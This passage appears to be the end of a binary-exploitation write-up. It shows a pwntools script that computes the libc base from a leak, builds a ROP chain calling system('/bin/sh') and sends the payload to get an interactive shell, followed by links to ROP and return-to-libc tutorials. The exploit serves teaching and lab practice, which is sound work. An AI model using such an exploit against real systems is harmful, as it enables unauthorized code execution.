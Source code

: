 ```py
libc.address = leaked_addr - libc.symbols[libc_function]

print(next(libc.search(b"/bin/sh\x00")))

log.info("libc base address is at 0x%08x" % libc.address)

rop = ROP(libc)
rop.call(libc.symbols["system"], [next(libc.search(b"/bin/sh\x00"))])
rop.call(libc.symbols["exit"])

payload = padding + rop.chain()

p.sendline(payload)
p.recv()

p.interactive()
```

![Shell](./images/shell.png)

## Resources
LiveOverflow's binary exploitation series: https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN

LiveOverflow's video about ROP: https://www.youtube.com/watch?v=zaQVNM3or7k

LiveOverflow's video about return-to-libc: https://www.youtube.com/watch?v=m17mV24TgwY

JohnHammond's video about ROP: https://www.youtube.com/watch?v=i5-cWI_HV8o

